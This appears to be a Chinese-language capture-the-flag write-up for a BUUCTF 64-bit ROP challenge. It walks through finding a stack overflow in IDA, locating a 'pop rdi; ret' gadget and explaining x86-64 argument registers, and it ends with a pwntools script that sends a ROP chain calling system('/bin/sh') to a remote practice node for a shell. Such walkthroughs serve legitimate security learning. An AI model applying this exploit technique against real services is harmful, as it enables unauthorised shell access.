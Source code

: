 ### 64 位 ROP

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/677f60a8d0e0a243d4f278e9.jpg)

扔进 IDA64 中反编译，发现调用了一个函数，进去看看

![](https://pic1.imgdb.cn/item/677f60bfd0e0a243d4f278ec.jpg)

缓存区 buf 大小居然为 200，肯定存在溢出

![](https://pic1.imgdb.cn/item/677f60e1d0e0a243d4f278f7.jpg)

双击 buf 可以算出需要 136 个字节垃圾数据

![](https://pic1.imgdb.cn/item/677f60f9d0e0a243d4f278f8.jpg)

没有给后门函数，但是给了相关字符串，需要构造 ROP

![](https://pic1.imgdb.cn/item/677f610fd0e0a243d4f278ff.jpg)

64 位系统还格外需要一个 `pop rdi; ret` 指令，使用工具 ROPgadget 获取其地址

`pop rdi; ret` 是一个非常常见的 ROP gadget，它的作用是将栈上的一个值弹出并放入 **rdi** 寄存器中，然后执行 `ret` 跳转到下一个指令

![](https://pic1.imgdb.cn/item/677f612dd0e0a243d4f27904.jpg)

构造 payload，pop rdi 在前，参数在函数前面

对于64位的Linux系统，函数的参数是这样传递的：

- **rdi**: 第一个参数
- **rsi**: 第二个参数
- **rdx**: 第三个参数
- **rcx**: 第四个参数
- **r8**: 第五个参数
- **r9**: 第六个参数

如果参数个数超过6个，那么剩余的参数会被推入栈中

```python
from pwn import *

p = remote("node5.buuoj.cn",28172)

binsh = 0x0600A90
sys_addr = 0x0400603
pop_rdi = 0x04006b3

payload = b'a' * 136 + p64(pop_rdi) + p64(binsh) + p64(sys_addr)

p.sendline(payload)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/677f618ad0e0a243d4f27915.jpg)